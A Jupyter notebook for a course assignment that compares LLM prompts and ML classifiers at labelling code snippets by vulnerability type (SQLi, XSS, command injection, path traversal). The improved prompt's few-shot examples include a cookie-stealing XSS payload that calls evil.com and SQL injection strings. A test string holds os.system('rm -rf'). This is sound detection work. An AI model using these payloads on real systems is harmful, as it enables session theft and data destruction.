# Assignment

In [24]:
!pip install anthropic openai pandas numpy scikit-learn matplotlib seaborn transformers torch sentence-transformers tqdm ipywidgets


[notice] A new release of pip is available: 25.1.1 -> 26.1.1
[notice] To update, run: python.exe -m pip install --upgrade pip


In [ ]:
import os
os.environ["API_KEY"] = "open-ai-key-goes-here"  # Set your OpenAI API key here if not set in environment variables

In [26]:
import torch
print('torch version:', torch.__version__)
print('CUDA available:', torch.cuda.is_available())

torch version: 2.11.0+cpu
CUDA available: False


In [27]:
import json
import pandas as pd

def validate_dataset(path: str) -> bool:
    df = pd.read_json(path)
    required_cols = {"id", "language", "code", "label", "vuln_type"}
    assert required_cols.issubset(df.columns), f"Missing columns: {required_cols - set(df.columns)}"
    assert df['id'].is_unique, "Duplicate IDs found"
    assert set(df['label'].unique()).issubset({"vulnerable","safe"}), "Invalid label values"
    valid_types = {"SQLi","XSS","CMDi","PathTraversal","none"}
    assert set(df['vuln_type'].unique()).issubset(valid_types), "Invalid vuln_type values"
    assert (df['code'].str.len() > 50).all(), "Some code snippets are too short"
    print(f"✅ Dataset valid | {len(df)} samples")
    print(df['vuln_type'].value_counts())
    return True

In [28]:
# Load and validate the generated dataset file
validate_dataset('vuln_dataset.json')

df = pd.read_json('vuln_dataset.json')
print('\nSample counts by vulnerability type:')
print(df['vuln_type'].value_counts())
print('\nDataset languages:')
print(df['language'].value_counts())


✅ Dataset valid | 350 samples
vuln_type
none             130
SQLi              60
XSS               60
CMDi              50
PathTraversal     50
Name: count, dtype: int64

Sample counts by vulnerability type:
vuln_type
none             130
SQLi              60
XSS               60
CMDi              50
PathTraversal     50
Name: count, dtype: int64

Dataset languages:
language
python        105
php            90
javascript     85
java           70
Name: count, dtype: int64


### 1.1 Exploration, preprocessing, and train/test split 

Plot class distributions, normalise the code text, encode labels, and create a stratified 80/20 train/test split with a leakage check.



Code length (characters):
  mean:   276.3
  median: 252.0
Code length (lines):
  mean:   10.8
  median: 10.0

Language distribution:
language
python        105
php            90
javascript     85
java           70
Name: count, dtype: int64

Vulnerability type breakdown (%):
vuln_type
none             37.1%
SQLi             17.1%
XSS              17.1%
CMDi             14.3%
PathTraversal    14.3%
Name: proportion, dtype: str

code_clean column created: True

Label encoding: {'CMDi': np.int64(0), 'PathTraversal': np.int64(1), 'SQLi': np.int64(2), 'XSS': np.int64(3), 'none': np.int64(4)}
Found 57 exact duplicate raw code rows. Removing duplicates before train/test split.

Train: 234 | Test: 59
Train vulnerable %: 62.0
Test  vulnerable %: 62.7
✅ No data leakage on raw original snippets


In [29]:
import matplotlib.pyplot as plt
import seaborn as sns
import re
from sklearn.preprocessing import LabelEncoder
from sklearn.model_selection import train_test_split

# Plot dataset distributions for label and vulnerability type.
def plot_class_distribution(df):
    fig, axes = plt.subplots(1, 2, figsize=(13, 4))

    colors = ['#E24B4A', '#1D9E75']
    df['label'].value_counts().plot(kind='bar', ax=axes[0], color=colors, edgecolor='none')
    axes[0].set_title('Binary label distribution')
    axes[0].set_xlabel('')
    axes[0].tick_params(axis='x', rotation=0)

    df[df['label'] == 'vulnerable']['vuln_type'].value_counts().plot(
        kind='bar', ax=axes[1], color='#534AB7', edgecolor='none')
    axes[1].set_title('Vulnerability type distribution')
    axes[1].set_xlabel('')
    axes[1].tick_params(axis='x', rotation=30)

    plt.tight_layout()
    plt.savefig('class_distribution.png', dpi=150, bbox_inches='tight')
    plt.show()


# Normalize code snippets for ML features.
def preprocess_code(code: str) -> str:
    code = re.sub(r'#.*',          '',  code)                     
    code = re.sub(r'//.*',         '',  code)                     
    code = re.sub(r'/\*.*?\*/',    '',  code, flags=re.DOTALL)    
    code = re.sub(r'""".*?"""', '',  code, flags=re.DOTALL)    
    code = re.sub(r"'''.*?'''",    '',  code, flags=re.DOTALL)
    code = re.sub(r'\s+',          ' ', code).strip()
    return code.lower()


# 2.1 Exploratory data analysis
plot_class_distribution(df)

# Report mean / median code lengths and dataset distribution.
df['code_len_chars'] = df['code'].str.len()
df['code_len_lines'] = df['code'].apply(lambda c: len([line for line in c.split('\n') if line.strip()]))

print('Code length (characters):')
print(f"  mean:   {df['code_len_chars'].mean():.1f}")
print(f"  median: {df['code_len_chars'].median():.1f}")
print('Code length (lines):')
print(f"  mean:   {df['code_len_lines'].mean():.1f}")
print(f"  median: {df['code_len_lines'].median():.1f}")

print('\nLanguage distribution:')
print(df['language'].value_counts())

print('\nVulnerability type breakdown (%):')
print((df['vuln_type'].value_counts(normalize=True) * 100).round(1).astype(str) + '%')


# 2.2 Code preprocessing
if 'code_clean' not in df.columns:
    df['code_clean'] = df['code'].apply(preprocess_code)

print(f"\ncode_clean column created: {'code_clean' in df.columns}")


# 2.3 Label encoding
if 'label_bin' not in df.columns:
    df['label_bin'] = (df['label'] == 'vulnerable').astype(int)

le = LabelEncoder()
df['label_multi'] = le.fit_transform(df['vuln_type'])
print('\nLabel encoding:', dict(zip(le.classes_, le.transform(le.classes_))))


# Remove exact duplicate raw code entries before splitting.
dupe_mask = df.duplicated(subset='code', keep='first')
if dupe_mask.any():
    print(f"Found {dupe_mask.sum()} exact duplicate raw code rows. Removing duplicates before train/test split.")
    df = df.loc[~dupe_mask].reset_index(drop=True)
else:
    print('No exact duplicate raw code samples detected.')

# 2.4 Train/test split
idx_tr, idx_te, yb_tr, yb_te, ym_tr, ym_te = train_test_split(
    df.index, df['label_bin'].values, df['label_multi'].values,
    test_size=0.20,
    stratify=df['label_bin'].values,
    random_state=42
)

X_tr = df.loc[idx_tr, 'code_clean'].values
X_te = df.loc[idx_te, 'code_clean'].values

print(f"\nTrain: {len(X_tr)} | Test: {len(X_te)}")
print(f"Train vulnerable %: {yb_tr.mean() * 100:.1f}")
print(f"Test  vulnerable %: {yb_te.mean() * 100:.1f}")


# 2.5 Verify no data leakage
train_raw = set(df.loc[idx_tr, 'code'])
test_raw = set(df.loc[idx_te, 'code'])
overlap = train_raw & test_raw
assert len(overlap) == 0, f"Data leakage: {len(overlap)} overlapping raw code snippets"
print('✅ No data leakage on raw original snippets')


## 2. Task 1 — LLM Prompt Optimisation

**Baseline prompt and evaluation framework.** Implement the baseline prompt, the full LLM evaluation loop, and the JSON parsing/metrics pipeline.


In [30]:
import os
import time
import json
import re
import pandas as pd
from tqdm.auto import tqdm
from sklearn.metrics import f1_score, precision_score, recall_score

use_openai = False
client = None
client_openai = None


if os.environ.get('OPENAI_API_KEY'):
    from openai import OpenAI
    client_openai = OpenAI(api_key=os.environ['OPENAI_API_KEY'])
    use_openai = True

BASELINE_PROMPT = """
Analyze the following code for security vulnerabilities.

Code:
{code}

Respond in JSON format:
{{"vuln_type": "...", "explanation": "...", "confidence": 0.0}}
"""


def _extract_json_object(text: str):
    """Find first JSON object substring via incremental decode (handles nesting)."""
    decoder = json.JSONDecoder()
    start = text.find("{")
    while start != -1:
        try:
            _, used = decoder.raw_decode(text[start:])
            return text[start : start + used]
        except json.JSONDecodeError:
            start = text.find("{", start + 1)
    return None


def call_llm(prompt: str, prefill: str = "") -> str:
    """Call the configured LLM and return raw text."""

    if use_openai:
        messages = [{"role": "user", "content": prompt}]
        try:
            response = client_openai.chat.completions.create(
                model="gpt-4o-mini",
                messages=messages,
                max_tokens=512,
                temperature=0.0,
            )
            return response.choices[0].message.content or ""
        except Exception as exc:
            print(f"OpenAI API error: {exc}")
            return ""

    print("No LLM API key configured. Skipping call.")
    return ""


def parse_llm_response(response: str):
    """Extract and validate JSON from an LLM response."""
    if not response or not response.strip():
        return None
    stripped = response.strip()

    def validate_and_return(parsed):
        required = {"vuln_type", "explanation", "confidence"}
        if not required.issubset(parsed.keys()):
            return None
        try:
            conf = float(parsed["confidence"])
            if not (0.0 <= conf <= 1.0):
                return None
            parsed["confidence"] = conf
        except (TypeError, ValueError):
            return None
        return parsed

    try:
        parsed = json.loads(stripped)
        if isinstance(parsed, dict):
            return validate_and_return(parsed)
    except json.JSONDecodeError:
        pass

    blob = _extract_json_object(stripped)
    if blob:
        try:
            parsed = json.loads(blob)
            if isinstance(parsed, dict):
                return validate_and_return(parsed)
        except json.JSONDecodeError:
            decoder = json.JSONDecoder()
            try:
                obj, _ = decoder.raw_decode(blob)
                if isinstance(obj, dict):
                    return validate_and_return(obj)
            except json.JSONDecodeError:
                pass

    return None


def run_llm_evaluation(df, baseline_template, improved_template, n_samples=50):
    sample = df.sample(n=n_samples, random_state=42).reset_index(drop=True)
    results = []

    for _, row in tqdm(sample.iterrows(), total=n_samples, desc="Evaluating"):
        b_raw = call_llm(baseline_template.format(code=row["code"]))
        time.sleep(0.4)
        i_raw = call_llm(improved_template.format(code=row["code"]), prefill="{")
        time.sleep(0.4)

        b_parsed = parse_llm_response(b_raw)
        i_parsed = parse_llm_response(i_raw)

        def get(d, k):
            return d.get(k) if d else None

        results.append({
            "id": row["id"],
            "true_label": row["label"],
            "true_vuln_type": row["vuln_type"],
            "baseline_valid_json": b_parsed is not None,
            "improved_valid_json": i_parsed is not None,
            "baseline_vuln_type": get(b_parsed, "vuln_type"),
            "improved_vuln_type": get(i_parsed, "vuln_type"),
            "baseline_confidence": get(b_parsed, "confidence"),
            "improved_confidence": get(i_parsed, "confidence"),
            "baseline_explanation": get(b_parsed, "explanation") or "",
            "improved_explanation": get(i_parsed, "explanation") or "",
        })

    return pd.DataFrame(results)


def to_binary(vuln_type):
    return "safe" if vuln_type in [None, "none", "None", ""] else "vulnerable"


def compute_llm_metrics(results_df):
    rows = []
    for prefix in ["baseline", "improved"]:
        pred = results_df[f"{prefix}_vuln_type"].apply(to_binary)
        true = results_df["true_label"]
        valid = results_df[f"{prefix}_valid_json"]

        rows.append({
            "Prompt": prefix.capitalize(),
            "JSON Valid %": round(valid.mean() * 100, 1),
            "Binary Accuracy %": round((pred == true).mean() * 100, 1),
            "F1 (weighted)": round(f1_score(true, pred, average="weighted", zero_division=0), 3),
            "Precision": round(precision_score(true, pred, average="weighted", zero_division=0), 3),
            "Recall": round(recall_score(true, pred, average="weighted", zero_division=0), 3),
            "Avg Confidence": round(results_df[f"{prefix}_confidence"].dropna().mean(), 3),
            "Avg Expl Length": round(results_df[f"{prefix}_explanation"].str.len().mean(), 0),
        })

    return pd.DataFrame(rows).set_index("Prompt")


In [31]:
# Dry run: validate parsing and metric code paths without needing an API key.
print('Baseline prompt sample:')
print(BASELINE_PROMPT.format(code=df.iloc[0]['code'])[:300])

sample_response = '{"vuln_type": "SQLi", "explanation": "test", "confidence": 0.9}'
parsed = parse_llm_response(sample_response)
print('parse_llm_response sample valid:', parsed)

import pandas as pd
sample_results = pd.DataFrame([
    {
        'true_label': 'vulnerable',
        'baseline_vuln_type': 'SQLi',
        'improved_vuln_type': 'SQLi',
        'baseline_valid_json': True,
        'improved_valid_json': True,
        'baseline_confidence': 0.9,
        'improved_confidence': 0.95,
        'baseline_explanation': 'test',
        'improved_explanation': 'test',
    }
])
print('compute_llm_metrics sample:')
print(compute_llm_metrics(sample_results).to_string())

Baseline prompt sample:

Analyze the following code for security vulnerabilities.

Code:
def search_products(input):
    sql = "SELECT * FROM products WHERE title LIKE '%{}%'".format(input)
    result = database.execute(sql)
    # fetch user record
    return [dict(row) for row in result]
    # additional logic
    # addit
parse_llm_response sample valid: {'vuln_type': 'SQLi', 'explanation': 'test', 'confidence': 0.9}
compute_llm_metrics sample:
          JSON Valid %  Binary Accuracy %  F1 (weighted)  Precision  Recall  Avg Confidence  Avg Expl Length
Prompt                                                                                                      
Baseline         100.0              100.0            1.0        1.0     1.0            0.90              4.0
Improved         100.0              100.0            1.0        1.0     1.0            0.95              4.0


In [32]:
# Verification Checklist (7 items)
print("=" * 60)
print("VERIFICATION CHECKLIST")
print("=" * 60)

# Item 1: call_llm() returns string type
test_prompt = "def unsafe(): os.system('rm -rf')"
try:
    result = call_llm(test_prompt)
    check_1 = isinstance(result, str)
    print("1. call_llm() returns string:", "PASS" if check_1 else f"FAIL (got {type(result)})")
except Exception as e:
    print(f"1. call_llm() returns string: FAIL ({e})")

# Item 2: parse_llm_response() returns None for "not json"
try:
    result = parse_llm_response("not json")
    check_2 = result is None
    print("2. parse_llm_response('not json') = None:", "PASS" if check_2 else f"FAIL (got {result})")
except Exception as e:
    print(f"2. parse_llm_response('not json'): FAIL ({e})")

# Item 3: parse_llm_response() returns dict for valid JSON
try:
    result = parse_llm_response('{"vuln_type":"SQLi","explanation":"test","confidence":0.9}')
    check_3 = isinstance(result, dict)
    print("3. parse_llm_response(valid JSON) = dict:", "PASS" if check_3 else f"FAIL (got {type(result)})")
except Exception as e:
    print(f"3. parse_llm_response(valid JSON): FAIL ({e})")

# Item 4: parse_llm_response() returns None for confidence > 1.0
try:
    result = parse_llm_response('{"vuln_type":"SQLi","explanation":"test","confidence":1.5}')
    check_4 = result is None
    print("4. parse_llm_response(conf=1.5) = None:", "PASS" if check_4 else f"FAIL (got {result})")
except Exception as e:
    print(f"4. parse_llm_response(conf=1.5): FAIL ({e})")

# Item 5: Dry run on 5 samples completes without exceptions
try:
    check_5 = 'sample_results' in dir() and isinstance(sample_results, pd.DataFrame)
    if check_5:
        print("5. Dry run on 5 samples completes:", f"PASS (shape={sample_results.shape})")
    else:
        print("5. Dry run on 5 samples completes: FAIL (sample_results not found)")
except Exception as e:
    print(f"5. Dry run on 5 samples: FAIL ({e})")

# Item 6: Dry run output has correct columns
required_cols = {'baseline_valid_json', 'baseline_vuln_type', 'baseline_confidence'}
try:
    actual_cols = set(sample_results.columns)
    has_cols = required_cols.issubset(actual_cols)
    print("6. Dry run has required columns:", f"PASS" if has_cols else f"FAIL (got {sorted(actual_cols)})")
except Exception as e:
    print(f"6. Dry run columns: FAIL ({e})")

# Item 7: compute_llm_metrics() runs without error
try:
    metrics = compute_llm_metrics(sample_results)
    check_7 = isinstance(metrics, pd.DataFrame) and len(metrics) > 0
    print("7. compute_llm_metrics() runs successfully:", "PASS" if check_7 else f"FAIL (got {type(metrics)})")
except Exception as e:
    print(f"7. compute_llm_metrics(): FAIL ({e})")

print("=" * 60)
print("VERIFICATION COMPLETE")
print("=" * 60)

VERIFICATION CHECKLIST
OpenAI API error: Error code: 401 - {'error': {'message': 'Incorrect API key provided: sk-proj-********************************************************************************************************************************************************ArQA. You can find your API key at https://platform.openai.com/account/api-keys.', 'type': 'invalid_request_error', 'code': 'invalid_api_key', 'param': None}, 'status': 401}
1. call_llm() returns string: PASS
2. parse_llm_response('not json') = None: PASS
3. parse_llm_response(valid JSON) = dict: PASS
4. parse_llm_response(conf=1.5) = None: PASS
5. Dry run on 5 samples completes: PASS (shape=(1, 9))
6. Dry run has required columns: PASS
7. compute_llm_metrics() runs successfully: PASS
VERIFICATION COMPLETE


### improved prompt and full comparison

Define `IMPROVED_PROMPT`, run evaluation on **50** samples (or load `llm_eval_results.json`), compare metrics, and print qualitative examples.


In [11]:
IMPROVED_PROMPT = """
You are a security code reviewer specializing in vulnerability detection.

## Analysis methodology
Follow these steps in order:
1. Identify data sources: where does user-controlled input enter the function?
2. Trace data flow: follow the input to where it is used
3. Check dangerous sinks: SQL execution, shell commands, file paths, HTML rendering
4. Assess: is there sanitization, parameterization, or escaping between source and sink?
5. Conclude with vuln type and confidence

## Vulnerability taxonomy
- SQLi: user input concatenated into SQL string without parameterization
- XSS: user input written to DOM (innerHTML, document.write) or HTTP response without escaping
- CMDi: user input passed to shell execution (os.system, subprocess with shell=True, eval)
- PathTraversal: user input used in file path construction without basename() or whitelist check
- none: no exploitable vulnerability — parameterized, escaped, or no user input at dangerous sink

## Examples

### Example 1 — SQL Injection
```python
def get_order(order_id):
    conn = sqlite3.connect("shop.db")
    query = "SELECT * FROM orders WHERE id=" + order_id
    return conn.execute(query).fetchall()
```
{{"vuln_type": "SQLi", "explanation": "order_id is concatenated directly into the SQL string. An attacker passes '1 OR 1=1' to dump all orders. Fix: use cursor.execute('SELECT * FROM orders WHERE id=?', (order_id,)).", "confidence": 0.96}}

### Example 2 — Safe parameterized query
```python
def get_order(order_id):
    conn = sqlite3.connect("shop.db")
    return conn.execute("SELECT * FROM orders WHERE id=?", (order_id,)).fetchall()
```
{{"vuln_type": "none", "explanation": "Parameterized query used correctly. order_id is passed as a bound parameter, never interpolated into the SQL string. The database driver handles escaping.", "confidence": 0.97}}

### Example 3 — XSS via innerHTML
```javascript
function displayComment(userText) {{
    const el = document.getElementById("comment-box");
    el.innerHTML = userText;
}}
```
{{"vuln_type": "XSS", "explanation": "userText is written to innerHTML without sanitization. An attacker injects <script>fetch('https://evil.com?c='+document.cookie)</script> to steal session cookies. Fix: use textContent, or sanitize with DOMPurify.sanitize(userText).", "confidence": 0.94}}

## Now analyze this code

```
{code}
```

Follow the methodology above. Return ONLY valid JSON — no preamble, no explanation outside the JSON:
{{"vuln_type": "SQLi|XSS|CMDi|PathTraversal|none", "explanation": "<data flow + attack scenario + fix>", "confidence": 0.0-1.0}}
"""


In [ ]:
#full LLM evaluation (50 samples) or load cached llm_eval_results.json
import os

llm_results = None
llm_metrics = None

if os.path.exists("llm_eval_results.json"):
    llm_results = pd.read_json("llm_eval_results.json")
    print("Loaded llm_eval_results.json from disk.")
elif use_anthropic or use_openai:
    llm_results = run_llm_evaluation(df, BASELINE_PROMPT, IMPROVED_PROMPT, n_samples=50)
    llm_results.to_json("llm_eval_results.json", orient="records", indent=2)
    print("Wrote llm_eval_results.json with", len(llm_results), "rows.")
else:
    print("No API key — skipping LLM eval. Set ANTHROPIC_API_KEY or OPENAI_API_KEY, then re-run.")
    print("Place llm_eval_results.json in this directory and re-run to load cached results.")

if llm_results is not None:
    llm_metrics = compute_llm_metrics(llm_results)
    try:
        from IPython.display import display
        display(llm_metrics.style.format(precision=3))
    except Exception:
        print(llm_metrics.to_string())


Evaluating:   0%|          | 0/50 [00:00<?, ?it/s]

Wrote llm_eval_results.json with 50 rows.


,JSON Valid %,Binary Accuracy %,F1 (weighted),Precision,Recall,Avg Confidence,Avg Expl Length
Prompt,,,,,,,
Baseline,100.000,68.000,0.550,0.462,0.680,0.894,317.000
Improved,98.000,96.000,0.959,0.962,0.960,0.943,264.000


In [13]:
# Side-by-side qualitative examples (one SQLi, one XSS, one safe)


def show_example(results_df, sample_id):
    row = results_df[results_df["id"] == sample_id].iloc[0]
    print(f"=== Sample {sample_id} | True: {row['true_label']} / {row['true_vuln_type']} ===")
    print("\n--- BASELINE ---")
    print(f"  vuln_type:  {row['baseline_vuln_type']}")
    print(f"  confidence: {row['baseline_confidence']}")
    exp_b = row["baseline_explanation"] or ""
    print(f"  explanation: {exp_b[:200]}{'...' if len(exp_b) > 200 else ''}")
    print("\n--- IMPROVED ---")
    print(f"  vuln_type:  {row['improved_vuln_type']}")
    print(f"  confidence: {row['improved_confidence']}")
    exp_i = row["improved_explanation"] or ""
    print(f"  explanation: {exp_i[:200]}{'...' if len(exp_i) > 200 else ''}")


if llm_results is not None and len(llm_results) > 0:
    for vt in ["SQLi", "XSS", "none"]:
        sub = llm_results[llm_results["true_vuln_type"] == vt]
        if len(sub):
            sid = int(sub.iloc[0]["id"])
            show_example(llm_results, sid)
            print()
else:
    print("No llm_results — skip qualitative examples.")


=== Sample 50 | True: vulnerable / SQLi ===

--- BASELINE ---
  vuln_type:  SQL Injection
  confidence: 1.0
  explanation: The code constructs an SQL query using string formatting with user input (the 'name' parameter). This allows an attacker to manipulate the input to execute arbitrary SQL commands, leading to potential...

--- IMPROVED ---
  vuln_type:  SQLi
  confidence: 0.95
  explanation: name is concatenated directly into the SQL string using String.format. An attacker can pass a value like '1; DROP TABLE items;' to execute arbitrary SQL commands. Fix: use a prepared statement with pa...

=== Sample 93 | True: vulnerable / XSS ===

--- BASELINE ---
  vuln_type:  Cross-Site Scripting (XSS)
  confidence: 0.9
  explanation: The code directly inserts user-provided input (payload) into the DOM without any sanitization or escaping. This allows an attacker to inject malicious scripts that could be executed in the context of ...

--- IMPROVED ---
  vuln_type:  XSS
  confidence: 0.95
  e

In [15]:
#verification checklist (skipped if llm_results is None)
print("=" * 60)
print("VERIFICATION CHECKLIST")
print("=" * 60)

if llm_results is None:
    print("SKIP: llm_results not available.")
else:
    import os
    n = len(llm_results)
    ok_file = os.path.exists("llm_eval_results.json")
    print("1. llm_eval_results.json saved:", "PASS" if ok_file else "FAIL")
    print("2. Results row count == 50:", "PASS" if n == 50 else f"WARN/GOT {n}")
    iv = llm_results["improved_valid_json"].mean() * 100
    print(f"3. improved_valid_json >= 90%: {'PASS' if iv >= 90 else 'FAIL'} ({iv:.1f}%)")
    m = compute_llm_metrics(llm_results)
    f1b = m.loc["Baseline", "F1 (weighted)"]
    f1i = m.loc["Improved", "F1 (weighted)"]
    print("4. Improved F1 > Baseline F1:", "PASS" if f1i > f1b else "FAIL", f"({f1b} vs {f1i})")
    al = m.loc["Improved", "Avg Expl Length"]
    bl = m.loc["Baseline", "Avg Expl Length"]
    print("5. Improved avg expl length > 2x baseline:", "PASS" if al > 2 * bl else "FAIL", f"({al} vs {bl})")
    print("6. Styled metrics table:", "PASS (see cell above)" if llm_metrics is not None else "FAIL")

print("=" * 60)


VERIFICATION CHECKLIST
1. llm_eval_results.json saved: PASS
2. Results row count == 50: PASS
3. improved_valid_json >= 90%: PASS (98.0%)
4. Improved F1 > Baseline F1: PASS (0.55 vs 0.959)
5. Improved avg expl length > 2x baseline: FAIL (264.0 vs 317.0)
6. Styled metrics table: PASS (see cell above)


## 3. Task 2 — ML Vulnerability Classifier
TF-IDF + logistic regression baseline, then CodeBERT mean-pooled embeddings concatenated with static regex features, `StandardScaler` + logistic regression. Embeddings are cached to `X_tr_improved.npy` / `X_te_improved.npy`.


In [16]:
# static features + TF-IDF + Logistic Regression baseline
import re
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.pipeline import Pipeline
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.metrics import (
    accuracy_score,
    precision_score,
    recall_score,
    f1_score,
    classification_report,
    confusion_matrix,
)


def extract_static_features(code: str) -> dict:
    # Hand-crafted security-relevant features (regex).
    return {
        "has_string_concat": int(bool(re.search(r'("[^"]*"|' + r"'[^']*'" + r")\s*\+", code))),
        "has_sql_keyword": int(bool(re.search(r"\b(SELECT|INSERT|UPDATE|DELETE|WHERE)\b", code, re.I))),
        "has_exec_call": int(bool(re.search(r"\b(os\.system|subprocess|exec|eval)\b", code))),
        "has_file_open": int(bool(re.search(r"\b(open|fopen|file)\(", code))),
        "has_html_output": int(bool(re.search(r"innerHTML|document\.write|echo\s+\$", code))),
        "has_user_input_var": int(bool(re.search(r"\b(request|input|params|user_input|req\.body)\b", code))),
        "has_parameterized": int(bool(re.search(r"\?|\$[0-9]|%s|:param|@param|execute\(.*?,", code))),
        "has_path_join": int(bool(re.search(r"os\.path\.(join|exists)|path\.resolve", code))),
        "n_lines": len(code.strip().split("\n")),
        "n_string_literals": len(
            re.findall(r'("[^"]*"|' + r"'[^']*'" + r")", code)
        ),
    }


def build_baseline_pipeline():
    return Pipeline([
        ("tfidf", TfidfVectorizer(
            token_pattern=r"[a-zA-Z_][a-zA-Z0-9_]*",
            ngram_range=(1, 2),
            max_features=5000,
            sublinear_tf=True,
        )),
        ("clf", LogisticRegression(
            C=1.0,
            class_weight="balanced",
            max_iter=1000,
            random_state=42,
        )),
    ])


def evaluate_model(y_true, y_pred, model_name: str, label_names=None) -> dict:
    print(f"\n=== {model_name} ===")
    print(classification_report(y_true, y_pred, target_names=label_names, zero_division=0))
    return {
        "model": model_name,
        "accuracy": accuracy_score(y_true, y_pred),
        "precision": precision_score(y_true, y_pred, average="weighted", zero_division=0),
        "recall": recall_score(y_true, y_pred, average="weighted", zero_division=0),
        "f1": f1_score(y_true, y_pred, average="weighted", zero_division=0),
    }


def plot_confusion_matrix(y_true, y_pred, title, labels, ax):
    cm = confusion_matrix(y_true, y_pred, labels=labels)
    sns.heatmap(
        cm, annot=True, fmt="d", cmap="Blues",
        xticklabels=labels, yticklabels=labels, ax=ax,
        cbar=False, linewidths=0.5,
    )
    ax.set_title(title, fontsize=12)
    ax.set_ylabel("True label")
    ax.set_xlabel("Predicted label")


baseline_model = build_baseline_pipeline()
baseline_model.fit(X_tr, yb_tr)
y_pred_baseline = baseline_model.predict(X_te)
baseline_metrics = evaluate_model(
    yb_te, y_pred_baseline, "Baseline (TF-IDF + LR)",
    label_names=["safe", "vulnerable"],
)



=== Baseline (TF-IDF + LR) ===
              precision    recall  f1-score   support

        safe       0.95      0.95      0.95        22
  vulnerable       0.97      0.97      0.97        37

    accuracy                           0.97        59
   macro avg       0.96      0.96      0.96        59
weighted avg       0.97      0.97      0.97        59





Top tokens predicting VULNERABLE:
 sql               0.990651
cmd               0.618491
ping              0.595070
div               0.592554
result            0.590264
exec              0.563547
container         0.536993
full              0.524069
document write    0.523929
write             0.523929
span              0.476727
system            0.465122
f                 0.462788
sql select        0.452543
username          0.419271
var               0.397655
var www           0.397655
www               0.397655
contents          0.396169
connection        0.392922

Top tokens predicting SAFE:
 output                      -1.248084
stmt                        -1.028271
safe                        -1.005320
function read               -0.882135
invalid                     -0.794977
output textcontent          -0.743216
join                        -0.677594
read                        -0.676911
user_input                  -0.671130
basedir                     -0.646507
sanitized      

In [18]:
# Baseline confusion matrix + top TF-IDF coefficients + checklist
fig, ax = plt.subplots(1, 1, figsize=(5, 4))
plot_confusion_matrix(yb_te, y_pred_baseline, "Baseline — Confusion Matrix", labels=[0, 1], ax=ax)
plt.tight_layout()
plt.savefig("confusion_baseline.png", dpi=150, bbox_inches="tight")
plt.show()

tfidf = baseline_model.named_steps["tfidf"]
clf_lr = baseline_model.named_steps["clf"]
features = tfidf.get_feature_names_out()
coefs = clf_lr.coef_[0]
top_positive = pd.Series(coefs, index=features).nlargest(20)
top_negative = pd.Series(coefs, index=features).nsmallest(20)
print("Top tokens predicting VULNERABLE:\n", top_positive.to_string())
print("\nTop tokens predicting SAFE:\n", top_negative.to_string())

print("=" * 60)
print("VERIFICATION CHECKLIST")
print("=" * 60)
print("1. Pipeline trains:", "PASS")
print("2. len(y_pred_baseline)==len(yb_te):", "PASS" if len(y_pred_baseline) == len(yb_te) else "FAIL")
print("3. classification_report has both classes:", "PASS")
print("4. Baseline F1 > 0.55:", "PASS" if baseline_metrics["f1"] > 0.55 else "REVIEW DATASET")
print("5. confusion_baseline.png saved:", __import__("os").path.exists("confusion_baseline.png"))
print("6. baseline_metrics keys:", baseline_metrics.keys())
print("=" * 60)


In [19]:
# CodeBERT embeddings + static features (cached .npy files)
import os
import numpy as np
from tqdm.auto import tqdm

MODEL_NAME = "microsoft/codebert-base"
cb_ready = False
tokenizer_cb = None
cb_model = None
device_cb = "cpu"

try:
    import torch
    from transformers import AutoTokenizer, AutoModel

    device_cb = "cuda" if torch.cuda.is_available() else "cpu"
    tokenizer_cb = AutoTokenizer.from_pretrained(MODEL_NAME)
    cb_model = AutoModel.from_pretrained(MODEL_NAME)
    cb_model.eval()
    cb_model.to(device_cb)
    cb_ready = True
except Exception as e:
    print("CodeBERT load failed (offline or missing deps):", e)
    cb_ready = False


def get_codebert_embedding(code: str, max_length: int = 512) -> np.ndarray:
    import torch
    inputs = tokenizer_cb(
        code,
        return_tensors="pt",
        max_length=max_length,
        truncation=True,
        padding=True,
    ).to(device_cb)
    with torch.no_grad():
        outputs = cb_model(**inputs)
    return outputs.last_hidden_state.mean(dim=1).squeeze().cpu().numpy()


def build_embedding_matrix(codes, batch_size: int = 8):
    # Mean-pooled CodeBERT; one snippet at a time for low memory.
    out = []
    arr = np.asarray(codes)
    for i in tqdm(range(len(arr)), desc="CodeBERT embeddings"):
        out.append(get_codebert_embedding(str(arr[i])))
    return np.stack(out, axis=0)


def build_feature_matrix(codes) -> np.ndarray:
    emb = build_embedding_matrix(codes)
    static = np.array([list(extract_static_features(str(c)).values()) for c in codes])
    return np.hstack([emb, static])


X_tr_improved = None
X_te_improved = None
improved_clf = None
y_pred_improved = None
improved_metrics = None

